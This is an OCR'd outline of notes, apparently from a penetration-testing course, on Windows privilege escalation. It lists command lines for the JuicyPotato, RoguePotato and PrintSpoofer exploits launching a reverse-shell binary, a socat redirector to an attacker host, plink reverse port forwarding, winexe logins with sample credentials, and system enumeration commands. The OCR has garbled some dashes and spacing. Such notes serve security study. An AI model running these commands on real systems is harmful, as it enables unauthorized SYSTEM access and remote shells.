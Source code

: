 				- > C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

			- Listener 2

				- > C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

			- https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

		- Rogue Potato

			- https://github.com/antonioCoco/RoguePotato
			- https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/
			- https://github.com/antonioCoco/RoguePotato/releases
			- # sudo socat tcp-listen:135,reuseaddr,fork
tcp:$IP:$PORT
			- > C:\PrivEsc\PSExec64.exe -i -u "nt
authority\local service" C:\PrivEsc\reverse.exe
			- > C:\PrivEsc\RoguePotato.exe -r $IP–l $PORT-e "C:\PrivEsc\reverse.exe"

		- PrintSpoofer

			- https://github.com/itm4n/PrintSpoofer
			- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
			- > C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
			- > C:\PrivEsc\PrintSpoofer.exe –i -c "C:\PrivEsc\reverse.exe"

	- Port Forwarding To Internal Service

		- Exploitation

			- > plink.exe $USERNAME@$IP -R $PORT:$TARGET_IP:$TARGET_PORT
			- # winexe -U 'admin%password123' //$IP cmd.exe
			- > netsh advfirewall set allprofiles state on
			-  “PermitRootLogin yes”

				- /etc/ssh/sshd_config

			- > plink.exe root@$IP -R 445:127.0.0.1:$PORT
			- # winexe -U 'admin%password123' //localhost cmd.exe

- Tools

	- Basic Information Gathering

		- whoami
		- net user student
		- id
		- net user
		- hostname
		- systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type
		- tasklist /SVC
		- ipconfig /all
		- route print
		- netstat -ano
		- netsh advfirewall show currentprofile 
		- netsh advfirewall firewall show rule name=all 
		- schtasks /query /fo LIST /v 
		- wmic product get name, version, vendor 
		- wmic qfe get Caption, Description, HotFixID, InstalledOn 
		- accesschk.exe -uws "Everyone" "C:\Prog ram Files"
